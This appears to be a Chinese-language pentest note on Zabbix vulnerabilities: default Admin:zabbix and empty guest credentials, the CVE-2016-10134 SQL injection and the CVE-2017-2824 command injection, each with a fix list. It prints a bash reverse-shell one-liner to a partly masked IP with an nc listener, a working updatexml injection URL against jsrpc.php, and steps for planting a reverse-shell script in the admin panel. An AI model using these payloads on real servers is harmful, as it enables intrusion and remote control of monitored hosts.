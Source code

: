 # zabbix
## zabbix弱口令漏洞
### 漏洞说明
运维人员在初次安装zabbix时候，zabbix默认的口令为Admin:zabbix，以及存在guest密码为空，没有进行更改和禁止guest用户，导致zabbix存在致命漏洞，容易遭受攻击。
### 影响范围
/
### 验证方法
pocsuite: `poc_zabbix_weakpass`
### 利用方法
```bash
Zabbix server可以远程在agent的机器上执行任意命令
建立监控项
命令调用：bash -i >& /dev/tcp/45.xx.xxx.x1/6666 0>&1
命令调用：nc -lvp 6666
```
### 修复方式
1. zabbix放置在内网，不要暴露外网
2. 修改默认的口令密码
3. 禁止guest用户

## zabbix SQL注入漏洞 CVE-2016-10134
### 漏洞说明

### 影响范围
- 2.2.x
- 3.3.0-3.03

### 验证方法
**手工验证**:通过jsrpc.php触发，且无需登录：`http://your-ip:yourport/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`
**pocsuite**:
poc_zabbix_sqlinject.py

### 利用方法
1. 通过sql注入漏洞获取管理员session或密码登录管理员后台。
2. 在`http://youhost/zabbix.php?action=script.list&ddreset=1` 页面添加script
3. 新建反弹shell命令，保存
4. 首页主页邮件使用该脚本，触发反弹shell

### 修复方式
禁用guest账号
升级zabbix版本


## Zabbix Server Active Proxy Trappe RCE漏洞 CVE-2017-2824
### 漏洞描述
利用条件比较苛刻，首先需要能访问到Zabbix Server监听的10051端口，另外需要配置Proxy，以及相应的Action来自动添加Host，从而达到利用ip参数进行命令注入
### 影响范围
Zabbix 2.4.7 – 2.4.8r1
### 利用方法
详见cve-2017-2824